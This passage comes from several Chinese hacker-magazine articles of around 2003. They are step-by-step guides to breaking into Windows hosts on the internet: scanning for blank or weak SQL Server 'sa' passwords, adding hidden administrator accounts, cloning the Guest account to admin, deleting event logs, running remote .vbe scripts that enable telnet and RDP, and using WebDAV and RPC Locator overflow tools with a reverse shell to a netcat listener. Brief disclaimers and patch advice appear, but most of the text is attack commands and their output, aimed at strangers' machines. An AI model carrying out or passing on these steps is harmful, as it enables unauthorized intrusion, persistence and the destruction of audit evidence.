

图 3

> **LOOK 注意**：这时候我们得到的 IP 地址，是既开放了 1433，又开放了 3389 端口的。

OK，在“扫描模块”那里选择“SQL-Server 弱口令”和“NT-Server 弱口令”，在“扫描参数”→“基本设置”选择我们刚刚设置好的文件作为要扫描的 IP 地址。结果出来了，很可惜，NT-Server 的弱口令一样也没有，不然的话我们直接就可以登录对方的计算机了。不过不要紧，看看下面的内容：

```
[218.xx.xx.221]：正在检测“SQL-Server 弱口令”
[218.xx.xx.221]：发现 SQL-Server 弱口令：sa/[空口令]
[218.xx.xx.79]：正在检测“SQL-Server 弱口令”
[218.xx.xx.79]：发现 SQL-Server 弱口令：sa/123
[218.xx.xx.96]：“SQL-Server 弱口令”扫描完成
[218.xx.xx.96]：扫描全部完成
```

哈哈，扫到了两个 sa 的弱口令，照样爽！如图 4 所示。

接下来，打开 SqlExec，在 Host 中填入扫到的 IP，再填入密码 123（这个密码也够傻 B 的了），按“Connect”连接上。



图 4


图 5

跟着我们可以利用 SqlExec 来添加一个名为“systemuser”、密码为“ricky43”的管理员账号，如图 5 所示。在 CMD 中分别输入：

```bash
net user systemuser ricky43 /add
```

## 一个人的战争

```bash
net localgroup administrators systemuser /add
```

哈哈，赶快登录一下看看！  
打开“酷虎 3389 端口攻击器”，填上肉鸡的 IP，便可以登录到对方的计算机了。如图 6 所示的是一只 WinXP 的肉鸡。

图 6

> LOOK 注意：因为 Win98 是没有 3389 终端服务客户端的，所以我们需要使用例如酷虎 3389 端口攻击器等第三方软件来实现登录。

不过，这样子好像很容易被对方管理员发现我们新建了一个用户。不要紧，我们可以使用小榕（不好意思，我的名字也叫榕 ^_^）的克隆工具 ca 来把 Guest 帐号提升为 Administrator。  
例如，我们要在刚才这台已经添加了一个“systemuser”管理员帐号（密码为 ricky43）的计算机上，把 Guest 帐号（密码也是 ricky43）克隆为管理员。  
实现的方法是：把 ca 上传到另一台肉鸡，登录上肉鸡，在 CMD 下输入：

```bash
C:\>ca \\218.xx.xx.79 systemuser ricky43 guest ricky43
```

```text
Clone Administrator, by netXeyes 2002/04/06
Written by netXeyes 2002, dansnow@21cn.com

Connect 218.xx.xx.79 ....OK
Get SID of guest...OK
Preparing ....OK
Processing ....OK
Clean Up ....OK
```

> LOOK 注意：因为 Win98 没有 CMD（命令行提示符），所以我们需要登录上另外一台 Win2000 的主机进行操作。

哈哈，这时，Guest 就成为了超级用户，并且具有和 Administrator 同样的设置（桌面、菜单等等），但是在 218.xx.xx.79 上面用 Net 命令查看的结果却为：

```text
User name                    Guest
Full Name                    Internet Guest Account
Comment                      Built-in account for anonymous access to Internet Information Services
User's comment               Built-in account for anonymous access to Internet Information Services
Country code                 000 (System Default)
Account active               Yes
Account expires              Never
Password last set            2003/2/26 下午 8:31
Password expires             Never
Password changeable          2003/2/26 下午 8:31
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2003/2/26 下午 09:02

Logon hours allowed          All

Local Group Memberships      *Guests
Global Group memberships     *None
```

看起来，这不过是一个普通的 Guest 帐号罢了。然后我们可以用 `net user systemuser /del` 命令把原来添加的 systemuser 帐号删除掉，以后用 Guest 帐号登录，便可以神不知鬼不觉了，呵呵。  
接下来就是收尾工作了，利用下面的命令：

```bash
del c:\winnt\system32\logfiles\*.*
del c:\winnt\system32\config\*.evt
del c:\winnt\system32\dtclog\*.*
del c:\winnt\system32\*.log
del c:\winnt\system32\*.txt
del c:\winnt\*.log
```

清除掉肉鸡的所有日志文件，走人。  
OK，从今以后，我们即使在 Win98 下，也可以轻松地登录上别人的计算机，进行我们的入侵实验了。一来在功能上没有了限制，二来实现了跳板的功能，确保了自己的安全，一举两得。呵呵，爽！▣

## vbe 文件的妙用

紫幻

记得在 2003 年第 2 期中有一篇《用 VBS 脚本敲开 Win2k 的大门》的文章，里面主要介绍了一些利用 vbs 文件来设置后门的方法。我觉得写得非常好。最近我在其他的 Hacker 站点上找到了一些 vbe 文件，功能更为强大，可以轻松完成很烦琐的任务。  
大家都知道，vbs 和 vbe 文件都是脚本文件。但是很多朋友跟我反映说很多系统都缺少脚本宿主引擎，现在我就把我找到的一些 *.vbs 文件转换成了 *.vbe 文件。下面介绍这几款工具的详细使用方法。

- ▣ telnet.vbe  
  描述：远程开启/关闭目标 telnet 服务的 Windows 脚本。
- ▣ CleanLog.vbe  
  描述：远程清除目标事件日志的 Windows 脚本。
- ▣ reboot.vbe  
  描述：远程让目标重启/关机的 Windows 脚本。
- ▣ 3389.vbe  
  描述：远程开启 3389 终端服务的 Windows 脚本。

以上程序我都给各位打包好了，下载地址：http://zihuan.y365.com/down/vbe.zip。

### 一、telnet.vbe 的使用方法

telnet.vbe 是一款命令行下使用的工具，但是它不依赖于 ipc$ 的开放。也就是说对方不开放 ipc$ 我们也可以使用它，这点是该程序最强大和方便的地方。

想必大家对 telnet 都很了解吧？它是 Hacker 一族的最爱啊！它默认开放的端口是 23，以前大家开启它时还需要 opentelnet 或者是对方开放 ipc$ 连接，比较麻烦。有了 telnet.vbe，开启这个服务就简单多了。根据作者的介绍，它的使用方法是：

```bash
c:\>cscript telnet.vbe <目标IP> <用户名> <密码> <NTLM验证方式> <telnet服务器端口>
```

使用方法很简单，下面讲解一下 NTLM 验证方式。其中 ntlm 值可取 0、1、2：

- 0：不使用 NTLM 身份验证；
- 1：先尝试 NTLM 身份验证，如果失败，再使用用户名和密码；
- 2：只使用 NTLM 身份验证。

空密码用两个双引号 `""` 表示。

下面看看我的实际操作。假设我想开启的 IP 是 218.xxx.xxx.xxx，管理员 ID 是 administrator，密码为空，想开启的端口是 5000，那么命令应该是：

```bash
c:\>cscript telnet.vbe 218.xxx.xxx.xxx zihuan "" 2 5000
```

注意：空密码用两个双引号 `""` 表示。具体操作如图 1 所示：

图 1

看到了吗？一切 OK。接下来做什么？你说呢？赶快 `telnet 218.xxx.xxx.xxx 5000`，如图 2 所示。

图 2

成功了。以后我们可以直接 telnet 218.xxx.xxx.xxx 5000 端口来获得 shell。

如果你想关闭对方的这个 telnet 服务，直接再执行一次：

```bash
c:\>cscript telnet.vbe 218.xxx.xxx.xxx zihuan "" 2 5000
```

这样就可以了。这个 telnet.vbe 是不是很简单呢？我相信在以后的 hacking 当中有很大的作用，大家慢慢实战吧。

### 二、CleanLog.vbe 的使用方法

以前擦写日志是很麻烦的事情，需要入侵者有高超的技术。但是有了 CleanLog.vbe，这些事情就变得非常简单和容易了。下面来看看 CleanLog.vbe 的使用方法：

```bash
c:\>cscript CleanLog.vbe <目标IP> <用户名> <密码> [日志名列表]
```

和 telnet.vbe 的使用方法差不多，只不过多了一个日志名列表。根据作者的说明，日志的名称有：

- system：系统日志
- application：应用程序日志
- security：安全日志

这三种日志是系统默认的，可以分别使用 `sys`、`app`、`sec` 作为缩写表示。对于其它日志需要写明完整英文名（以注册表为准）。使用 `*`、`-a` 或 `-all` 参数代替日志名列表将清除全部日志。没有日志名列表或者使用 `-v`、`-view` 作参数，可以列举目标所有日志种类的英文名。

下面是我的具体操作。实验的 IP 还是刚才那个 218.xxx.xxx.xxx，管理员 ID 为 administrator，密码为空。命令：

```bash
c:\>cscript CleanLog.vbe 218.22.50.206 administrator "" system -all
```

图 3 所示是我的操作过程：

图 3

一切 OK。说明通过上面的操作，218.xxx.xxx.xxx 这台主机的全部日志已经被我清理掉了。`-all` 是全部清理的参数。

如果要清理掉 application（应用程序日志）和 security（安全日志），直接把 system 替换为 application 或者 security 即可。由于篇幅原因我就不再抓图了。以上讲述的内容就是清理日志脚本 CleanLog.vbe 的使用方法。

### 三、reboot.vbe 的使用方法

大家一定碰到过在给肉鸡安装一些程序，或者是对肉鸡进行注册表操作，或者是登录肉鸡的终端服务发现终端超过连接数量的情况，因为这样很容易被发现。此时就需要重新启动肉鸡来解决。以前重新启动肉鸡还要上传文件，很是麻烦。现在有了 reboot.vbe，事情就变得简单多了。只要在本地执行就可以轻松重新启动肉鸡，而且不依赖于目标的 ipc$ 是否开放，这就是它的最大优点。使用方法如下：

```bash
c:\>cscript reboot.vbe <目标IP> <用户名> <密码> <-r|s|l|p>
```

- `-r`：重启目标。
- `-s`：关闭目标。
- `-l`：注销目标当前用户。
- `-p`：关闭目标电源。

其中 `s` 和 `p` 的不同是：前者到“您可以安全地关闭计算机了”后，需要手动切断电源。

我们使用 218.xxx.xxx.xxx 的主机做试验，只要输入：

```bash
c:\>cscript reboot.vbe 218.xxx.xxx.xxx administrator "" -r
```

则可重新启动对方计算机。如图 4 所示就是操作过程：

出现以上字样就说明对方主机已经重新启动了。其它参数大家慢慢试验吧，不过不到万不得已请不要重启别人的服务。

### 四、3389.vbe 的使用方法

3389.vbe 就是远程开启终端服务的脚本文件，它的使用也是非常简单。使用方法我已经发表在了另外一篇文章《轻松开启 Win2k 终端服务》上，在这里只简单介绍一下。使用方法：

```bash
c:\>cscript 3389.vbe <目标IP> <目标用户名> <密码> /r
```

后面的 `/r` 就是重新启动选项。操作过程如图 5 所示，一切 OK。之后对方主机会马上重新启动，等它再一次上线后，直接用远程桌面连接进入对方桌面就可以了。这里我就不再一一讲述了。

### 五、注意问题

- 1. 如果你使用的系统找不到扩展名为 *.vbe 的脚本宿主引擎，请用记事本把文件打开再保存为 *.vbs 文件，一般系统都支持 *.vbe 或 *.vbs 脚本。
- 2. 以上 4 个脚本文件都在 Win2000 各个版本和 WinXP/.NET 测试通过，Win98 没有具体试验。

看完这篇文章相信大家一定和我有同感，没想到脚本也有这么大的用途。希望大家多学习编程脚本语言，制作出更强大的脚本文件。本篇出于教学目的，非法使用后果自负。

## 成功利用 WebDAV 缓冲区溢出漏洞

赵原

微软在 2003 年 3 月 17 日发布了一个最新公告：Windows 组件 WebDAV 存在未经检测的缓冲区溢出漏洞。该漏洞竟然影响到了 SP3 补丁的 Windows 2000 操作系统。

### 漏洞描述

Microsoft IIS 5.0（Internet Information Server 5）是 Microsoft Windows 2000 自带的一个网络信息服务器，其中包含 HTTP 服务功能。

IIS 5.0 默认提供了对 WebDAV 的支持，通过 WebDAV 可以通过 HTTP 向用户提供远程文件存储服务。但是作为普通 HTTP 服务器，这个功能不是必需的。IIS4 不受该漏洞影响。

IIS 5.0 包含的 WebDAV 组件未充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 WEB 进程权限在系统上执行任意指令。

IIS 5.0 的 WebDAV 使用了 ntdll.dll 中的一些函数，而这些函数存在一个缓冲区溢出漏洞。通过对 WebDAV 的畸形请求可以触发这个溢出。成功利用这个漏洞可以获得 LocalSystem 权限。这意味着，入侵者可以获得主机的完全控制能力。

一看描述就知道这个漏洞非常严重。受漏洞影响的有 Microsoft IIS 5.0 SP1、SP2、SP3，连 SP3 都受此漏洞影响。

接下来，我简单说说 WebDAV 服务的具体作用。WebDAV（基于 Web 的分布式写作和改写）是一组对 HTTP 协议的扩展，它允许用户协作地编辑和管理远程 Web 服务器上的文件。限于篇幅就不仔细介绍了，想详细了解的读者可以去下面这个链接查看：  
http://www.microsoft.com/china/security/Bulletins/MS03-007.asp

#### 如何判断是否正在运行 IIS

在 Windows 2000 的所有服务器版本上，默认情况下安装 IIS 5.0。在 Windows 2000 Professional 上，默认情况下不安装 IIS 5.0。

要检查你的系统上是否安装了 IIS，执行以下操作：转到“开始”->“设置”->“控制面板”->“管理工具”->“服务”。如果列出了 “World Wide Web Publishing” 服务，说明安装了 IIS。

### 成功试验

算起来这个漏洞出现也就不到一个月时间，但是已经有人把溢出程序写出来了。下面我给大家介绍如何利用 WebDAV 缓冲区溢出漏洞。

- **所需工具**
- 1、WebDAVScan.exe —— 扫描和检测该漏洞的扫描器；
- 2、webdavx.exe —— 溢出 webdav 的工具。

工具只需要以上两个。笔者已经给各位读者打好包了。下载地址：  
http://zihuan.y365.com/down/webdav.zip

#### 第一步：扫描该漏洞

首先自然是扫描。打开 WebDAVScan.exe 填上起始 IP 和结束 IP，按下 scan 就可以了。这款工具扫描速度飞快，很适合大面积扫描使用。该程序能准确检测出远程服务器上是否存在 WebDAV 漏洞。如图 1 所示是 WebDAVScan 正在进行扫描的画面。

通过图 1 我们可以看到，较多主机都符合该漏洞条件。在主界面的 “Webdav” 标签下，只要写着 “Enable” 的，就说明对应主机存在此项漏洞。

> **注意**：在开始的漏洞描述里已经说过了，存在此漏洞的服务器只限于 IIS 5.0。

扫描结果出来了，那下一步我们做什么呢？当然就是通过溢出拿权限啊。

#### 第二步：溢出目标

这个时候就要使用攻击此漏洞的利器——Webdavx。该程序是在 DOS 命令行下使用的，使用格式很简单：

```bash
webdavx.exe 目标IP地址
```

如果成功溢出，就可以在远程主机上开一个 7788 端口的 shell，这可是直接具备 system 权限的，要珍惜啊，呵呵。图 2 是我对一个存在此漏洞主机的溢出结果：

通过图 2 看到了吗？说明溢出 219.140.140.xxx 这个主机成功，并提示你 telnet 219.140.140.xxx 7788 端口。

> **注意**：在实践过程中，虽然基本都会提示溢出成功，但并不表示一定能够成功，要多换 IP 试验。

#### 第三步：获得 shell

在 CMD 状态下直接运行：`telnet 219.140.140.xxx 7788`

图 3 是成功溢出后的结果：

图 3

在试验了很多台远程主机后，终于成功了，所以你一定要有耐心，不要以为扫描到有此漏洞的主机就一定能够成功。

溢出成功后，你就具备远程主机的 admin 权限了。接下来，你可以在对方主机上添加用户名提升为管理员，或者做跳板、放木马……基本可以说是为所欲为了。

#### 强烈警告

国内安装 Windows 2000 系统以及 IIS 5.0 的主机，有 50% 以上存在该漏洞，这是非常严重的；请管理员尽快打补丁，免遭不测。下面给各位提出解决办法。

#### 解决办法

不知道各位网管看了以后是不是很恐怖。下面我就为大家讲一讲如何解决此漏洞。解决方法：

- 1. 建议用户尽快下载补丁程序。下载地址：http://microsoft.com/downloads/details.aspx?FamilyId=C9A38D45-5145-4844-B62E-C69D32AC929B&displaylang=en
- 2. 如果你不能立刻安装补丁或者升级，建议你使用微软提供的 IIS Lockdown 工具，可能可以防止该漏洞被利用。该工具可以在此得到：http://www.microsoft.com/downloads/release.asp?ReleaseID=43955

#### 值得注意的问题

- 1. webdavx.exe 现在只能溢出中文版 IIS 5.0。英文版的溢出工具现在使用效果不佳。以后有好的溢出英文 IIS 5.0 WebDAV 的工具我会及时提供给大家。
- 2. 如果各位读者溢出不成功，请多换几台存在此漏洞的主机试一下。

#### 严正声明

本篇文章旨在用于给各位有此漏洞的网管及时打上补丁的警示目的，请不要搞破坏，一切由本文产生的后果与本人以及黑客 X 档案无关。

## Microsoft Windows Locator 服务远程缓冲区溢出漏洞

紫幻

最近微软的漏洞可真不少，前些日子闹得沸沸扬扬的 WebDAV 缓冲区溢出漏洞还没结束，就冒出了一个非常严重的漏洞，也就是本篇所要讲的——Microsoft Windows Locator 服务远程缓冲区溢出漏洞。

首先，我给大家描述一下 Microsoft Windows Locator 服务远程缓冲区溢出漏洞形成的原因（我个人建议大家掌握一个漏洞先要知道它的成因，这样可为以后的学习打下更坚实的基础）。Windows Locator 服务是一款映射逻辑名称到网络特定名称的名字服务。Windows Locator 服务不正确处理非常大的请求，远程攻击者可以利用这个漏洞对 Locator 服务进行缓冲区溢出攻击或进行拒绝服务攻击。

Windows Locator 按照微软 MS03-001 描述是这样的一个服务：客户端使用远程过程调用（RPC）Locator 服务，Locator 服务负责把客户提交的网络名称解析转换为硬盘、打印机等计算机系统上实际资源的地址。如果某一打印机服务器逻辑名为 “laserprinter”，RPC 客户端调用 Locator 服务来找出网络名所映射的 “laserprinter”。RPC 客户端在调用 RPC 服务时，使用网络名来提交请求。

不过，Locator 服务在接收注册信息时，没有对 Locator 服务的参数进行详细检查，超长、超大的参数可导致服务程序触发缓冲区溢出，使 Locator 服务崩溃。精心构建的提交数据可能以 Locator 服务进程的权限在系统上执行任意指令。

#### 该漏洞受影响的系统：

- Microsoft Windows Locator
- Microsoft Windows XP Professional SP1
- Microsoft Windows XP Professional
- Microsoft Windows XP Home SP1
- Microsoft Windows XP Home
- Microsoft Windows XP 64-bit Edition SP1
- Microsoft Windows XP 64-bit Edition
- Microsoft Windows NT 4.0 SP6a
- Microsoft Windows NT 4.0 SP6
- Microsoft Windows NT 4.0 SP5
- Microsoft Windows NT 4.0 SP4
- Microsoft Windows NT 4.0 SP3
- Microsoft Windows NT 4.0 SP2
- Microsoft Windows NT 4.0 SP1
- Microsoft Windows NT 4.0
- Microsoft Windows 2000 Server SP3
- Microsoft Windows 2000 Server SP2
- Microsoft Windows 2000 Server SP1
- Microsoft Windows 2000 Server
- Microsoft Windows 2000 Professional SP3
- Microsoft Windows 2000 Professional SP2
- Microsoft Windows 2000 Professional SP1
- Microsoft Windows 2000 Professional
- Microsoft Windows 2000 Datacenter Server SP3
- Microsoft Windows 2000 Datacenter Server SP2
- Microsoft Windows 2000 Datacenter Server SP1
- Microsoft Windows 2000 Datacenter Server

## 一个人的战争

- Microsoft Windows 2000 Advanced Server SP3
- Microsoft Windows 2000 Advanced Server SP2
- Microsoft Windows 2000 Advanced Server SP1
- Microsoft Windows 2000 Advanced Server
- Microsoft Windows 2000

描述就是这么多，这个漏洞的发布日期是：2003 年 1 月 22 日。算起来时间还不长。不过，针对该漏洞的溢出程序已经出现了好几种版本。本人认为最好的版本就是国内顶尖人物 sunx 的 LocatorHack.exe，使用非常方便，成功率也很高。下面，我就为大家讲一讲如何利用此漏洞取得系统权限。

### 一、所需工具

- 1. LocatorHack.exe（溢出程序）
- 2. nc.exe（在本地监听 99 端口得到远程主机 admin shell）
- 3. scanner3.0（对单一端口扫描速度飞快，在这里我们用它大面积扫描 3268 端口）

好了，工具就准备这么多。这些工具已经给各位打好包了，大家可以在光盘中的“杂志相关”找到（压缩包名为“locator.zip”）。

### 二、溢出实例

由于开放 Windows Locator 这个服务的主机不多，所以想要练习此漏洞就需要大面积扫描开放 3268 端口的主机。一般开放 3268 的主机 80% 以上都开放此服务。到了现在，好像大家对这个服务还没什么印象，我为大家抓了一个图，让大家更清楚地看明白 Windows Locator 这项服务（图 1）。

一般，远程主机只要开放这个服务，我们就有 50% 的成功几率。

首先，打开 Scanner3.0 选择一个网段进行扫描，在扫描端口范围里填 3268 端口，最好是网段范围大一点。一般是扫描一个 B 段，相信等扫描结果出来会有许多主机开放 3268 端口，再把这些主机挑选出来，再进行扫描。主要是扫描一下这些主机是否开放 445 端口，至于 445 端口在以前的杂志里都详细介绍过。由于篇幅，我在这里就不再为大家详细说明了。


图 1

扫描到了既开放 445 端口又开放 3268 端口的主机，我们就可对漏洞主机进行试验性的溢出啦（哈哈，最兴奋的时刻到来啦）！

首先，进入 nc.exe 的所在文件夹，用 `nc -vv -l -p 99` 命令在本地监听 99 端口，等会儿溢出成功后的远程主机与本地 IP 连接。

下面，给大家介绍一下 LocatorHack.exe 这个溢出程序的使用方法：

```txt
C:\>LocatorHack

MsRpcLocator formQueryPacket wccspy overflow. written by
sunx
http://www.sunx.org

for test only, dont used to hack, :p

usage: LocatorHack <-h Host> <-v OSVer> <-l OSLanguage> <-s OSSP> <-r connectback_host> <-p connectback_port>
```

```txt
OS Version:
winnt: 1
win2k: 2
winxp: 3
OS Language:
english: 1
chinese: 2
japanese: 3
```

```txt
Exp: LocatorHack -h 192.168.0.1 -v 3 -l 1 -s 0 -r 127.0.0.1 -p 99
```

假设我刚才扫描到一个为 202.96.xxx.xxx 的主机有此漏洞，那么命令就应该打：

```txt
locatorhack -h 202.96.xxx.xxx -v 2 -l 2 -s 3 -r 61.xxx.xxx.xxx -p 99
```

看到以上命令是不是很多读者都弄迷糊了？没关系，下面我为大家解释 locatorhack 的具体参数：

- **-h** 是远程漏洞主机的 IP 地址
- **-v 1** 是 winnt 主机
- **-v 2** 是 win2k 主机
- **-v 3** 是 winxp 主机
- **-l 1** 是英文版的漏洞主机
- **-l 2** 是中文版的漏洞主机
- **-l 3** 是日文版的漏洞主机
- **-s 1** 是 SP1
- **-s 2** 是 SP2
- **-s 3** 是 SP3
- **-r** 就是自己的 IP 地址（**注意：使用这个工具溢出一定要有独立的 IP 地址，用内网的 IP 地址是不可以的。可使用 ipconfig 命令来检查自己的 IP**）
- **-p** 就是溢出的端口（注意：这个端口一定要和你用 nc 监听的端口一致，否则无法得到 shell）

以上就是 locatorhack 的所有参数。那么，刚才 `locatorhack -h 202.96.xxx.xxx -v 2 -l 2 -s 3 -r 61.xxx.xxx.xxx -p 99` 这个命令就不难理解啦！说明 202.96.xxx.xxx 这个主机存在此漏洞。它的操作系统版本是 win2k 的中文版，61.xxx.xxx.xxx 就是我自己的 IP。确定好参数后就回车看溢出效果，图 2 是我的操作结果。


图 2

看到了吗？出现了 GOOD LUCK。根据以往使用同类软件的经验，我的溢出是成功的。下面，看我刚才用 nc 监听的 99 端口，如图 3。


图 3

呵呵！看来今天我的运气还不错，已经成功获得了远程主机的 admin 权限。

我用 `net user` 命令查看了一下对方的用户情况。有些时候溢出不会像我今天这么顺利的。

不过，我已经把不成功的原因留给大家归纳了一下。主要有以下几点：

- 1. 检查远程主机是否开了 445 端口，一般开这个端口的主机溢出成功率比较高。
- 2. 检查你选择的参数是否和远程主机操作系统相符，一般可通过 IIS 版本来判断。比如 IIS4.0 就是 NT，IIS5.0 就是 Win2k，5.01 就是 XP 啦！我们也可通过端口来判断，假设对方开放 5000 端口，那一定就是 XP。这样的办法还有好多，在这里就不详细说明。
- 3. 检查在参数里对方打过的 SP 补丁，判断的方法也有很多。比如，对方还存在 IDQ 漏洞或是 Unicode 漏洞，那就一定不是 SP3。具体的大伙可自己在实践中慢慢摸索。
- 4. 如果对方有防火墙或已打上补丁了，建议再换个 IP 试一下。我相信多试验一定会成功的，一定要有耐心 :)

以上就是如何利用 Microsoft Windows Locator 服务远程缓冲区溢出漏洞进行热攻击。不知网管朋友看了以上的描述，会不会冒出一身冷汗？呵呵！没有关系的！下面我为大家讲一讲如何修补漏洞。如果你不能立刻安装补丁或升级，我建议你采取以下措施以降低威胁：

### 要判断 Windows Locator 服务是否运行，建议执行如下操作：

- ① Windows 2000 和 Windows XP 系统下，选择“控制面板→管理工具→服务”进行设置。而在 Windows NT 4.0 中，选择“控制面板→服务”进行设置。
- ② 你也可在命令行中输入：`net start`
- ③ 检查所有服务列表，如果存在“Remote Procedure Call (RPC) Locator”，表明 Locator 服务运行。

### 建议执行如下操作，关闭 Locator 服务：

- ① 通过服务控制面板，设置 RpcLocator 服务状态为“禁用”。
- ② 使用 Windows XP 或“Windows 2000 Resource Kit”包含的 sc.exe 程序停止此服务：`sc stop RpcLocator`
- ③ 使用 Windows XP 或“Windows 2000 Resource Kit”包含的 sc.exe 程序关闭此服务：`sc config RpcLocator start= disabled`

通过以上的简单修补，就不会存在此漏洞了。好了，就给大家讲到这里，如有不明之处可观看一个关于此漏洞和此工具的动画教程（它在光盘中也有收录，名为“locator.exe”）。

**严正声明：**本篇提醒各位网管及时修补该漏洞，请不要搞破坏，一切由本文引起的后果与《黑客 X 档案》无关。

## 另一款 WEBDAV 工具的溢出实验

Sagi

关于 WEBDAV 的远程溢出攻击，我不想讲太多，在《X 档案》2003 年第 4 期和第 5 期都有介绍，作者提到的都是基于 ison 用 PERL 写的溢出工具。而今天我要给大家介绍的是 YUANGE 早期写的一个 WEBDAV 工具（为什么现在才公开，估计是担心负面影响吧），该程序的用法和 isno 略有不同，据说还能穿透防火墙。下面，我们来看看该程序的简单用法吧！

首先，我们在不带任何参数的情况下执行一次，直接执行某程序一般都能看到程序的使用介绍。

```txt
G:\hacker\webdavx>webdav.exe

IIS5.0 HTTPEXT.DLL OVERFLOW
XXXXXXXXXXXXXXXXXXXXXX
usage: webdav.exe <server> [webport] [offset]

please enter the web server;
```

使用说明很简单，server 为目标主机；webport 为目标溢出端口；默认为 80；offset 为测试的偏移量，0、1、2……。下面，让我们填入具体参数来看一下该工具的性能。

```txt
G:\hacker\webdavx>webdav 130.XXX.XXX.XXX 80 0

IIS5.0 HTTPEXT.DLL OVERFLOW
XXXXXXXXXXXXXXXXXXXXXX

usage: webdav.exe <server> [webport] [offset]

nuke ip:130.XXX.XXX.XXX port 80
offset:0
shellcode long 0xfb

Packet long:0x10046

Send Packet 65732 bytes.
recv:
HTTP/1.1 404 Resource Not Found
Server: Microsoft-IIS/5.0
Date: Fri,23 May 2003 15:13:25 GMT
X-Virus: 1
......
```

屏幕显示出来的怎么这么眼熟？感觉和 aspcode.exe 差不多嘛！是的，我刚开始用的时候，还以为不对呢。不过，如果显示的是以上类似 ASP 文件的源代码的话，就说明溢出不成功，可使用 CTRL+C 中断，再换一个 OFFSET 试试。

我们看一下溢出成功的屏幕画面。

```txt
G:\hacker\webdav>webdav 218.104.53.103 80 0
IIS5.0 HTTPEXT.DLL OVERFLOW
xxxxxxxxxxxxxxxxxxxxxxxx
usage: webdav.exe <server> [webport] [offset]
nuke ip:130.39.5.91 port:80
offset:0
shellcode long 0xfb
PacketLong:0x10046
Send Packet 65735 bytes
recv:
c:\inetpub\wwwroot\NNNNNNNN
NNNNN
ok!
```

到这里就标示成功溢出了，回车一下，就会出现在对方 shell：

```txt
C:\WINNT\system32>
```

这个溢出程序真是一条龙服务，溢出成功后就直接能进入 shell 了，不用再使用类似 Telnet 或 NC 的工具来连接对方。下面，我们看一下这个程序溢出后的权限有多大，加个帐号看看。

```txt
C:\WINNT\system32>net user sagi$ 135790 /add
The command completed successfully.
```

命令执行成功了，已经加了一个帐号。我将 sagi$ 帐号又添加到了 administrators 组中（如图所示）。至于其他的，我想已经没有必要再做下去了。


或许会有朋友说，ison 的那个溢出程序很好呀！成功率也很高，为何还要再介绍这个溢出程序呢？我想对于许多使用过 isno 的 webdavx3.exe 的朋友来说，都曾经碰到过这个问题，就是使用 webdavx3.exe 已经溢出成功了，但在连接对方的 7788 端口时却无法连接上，这是因为对方的防火墙已经拦截了你的连接。

但如果你使用这个溢出程序的话，就不会出现这种情况了。换句话说，这个溢出程序可穿越对方的防火墙，明白了吧！

还是没有明白，那我就继续废话一些吧，就是说这个程序采用了端口复用技术，是针对 WWW 默认的端口（缺省为 80 端口）来连接的，也就是让 80 端口休眠后，再通过 80 端口来进行连接。大家知道，80 端口是永远的后门啊（可以参见相关资料，这句话并不是很准确，由于本人了解不多，这里就不讨论了），这类后门是最隐蔽的，也是最难防的。

在通常情况下，防火墙是不会设置规则来干涉 80 端口的进入数据的，否则，WWW 服务也就没有架构的必要了。

这个溢出程序只对中文版的 Win2000 有效，通常 offset 为 0 就可以成功，我测试时也有到 8、9 成功的。

本文的 WEBDAV 工具在本期光盘的“安全之路”已经收录了。不过，我在实验的过程中发现，进入对方 shell 以后很不稳定，通常是做完一个命令回车后，就遗失了对目标主机的连接。不知道是程序本身问题还是其他原因，请高手赐教。


